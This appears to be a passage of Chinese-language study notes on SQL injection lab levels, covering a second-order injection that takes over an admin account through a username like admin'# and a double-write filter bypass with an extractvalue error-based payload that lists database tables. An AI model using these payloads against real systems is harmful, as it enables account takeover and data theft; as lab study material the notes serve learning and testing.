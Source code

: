 



payload:

> 注册用户名为`admin'#`，这样就能闭合修改语句

```
									注册界面
Username:admin'#
password:任意
```







猜测后端对注册进行了转义过滤，对登录进行了转义，但对注册没有进行转义

```
修改用户密码的sql语句：
update users set password='前端出来的数据' where username='用户名';
```

> 此题注册做了转义处理，登录也做了转义处理，修改密码接收cookie中的uname值没做转义处理

> 此题修改密码的时候，也没有验证旧密码的正确性





#### 25.	双写绕过



此题主要为双写绕过：

后端对`and`,`or`,`&`做了过滤处理，会把以上字符全部替换为空字符。



如果是CTF题的话，没有说是被过滤了关键词。可以通过反复的测试来确认是否为双写绕过。

```
1' and 1=1%23
1' anandd 1=1%23			通过这种测试来，确认是否能用双写绕过
```

或者可以看一下`特殊的绕过`-->`双写绕过测试`



此时就可以使用双写绕过。例如：`or`写成`oorr`，`and`写成`anand`。这样中间的字符被替换为空后，两边的字符就会组成新的`or`或`and`



payload:

```
?id=1' anandd extractvalue(1,concat(0x7e,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database())))%23
```




